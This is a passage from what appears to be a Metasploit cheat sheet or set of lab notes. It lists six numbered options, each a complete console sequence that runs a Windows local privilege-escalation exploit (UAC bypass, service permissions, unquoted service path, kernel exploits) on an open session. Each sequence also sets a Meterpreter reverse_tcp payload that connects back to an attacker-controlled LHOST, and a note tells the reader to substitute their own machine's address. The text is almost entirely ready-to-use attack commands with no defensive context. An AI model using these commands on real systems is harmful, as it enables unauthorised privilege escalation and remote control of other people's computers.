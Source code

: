 --Option 4:
use exploit/windows/local/bypassuac
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 12345
exploit
 
--Option 5:
use exploit/windows/local/service_permissions
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 5555
exploit
 
--Option 6:
use exploit/windows/local/trusted_service_path
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 4567
exploit
 
 
--Option 7:
use exploit/windows/local/ppr_flatten_rec
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 7777
exploit
 
--Option 8:
use exploit/windows/local/ms_ndproxy
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 7788
exploit
 
 
--Option 9:
use exploit/windows/local/ask
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 7799
exploit
 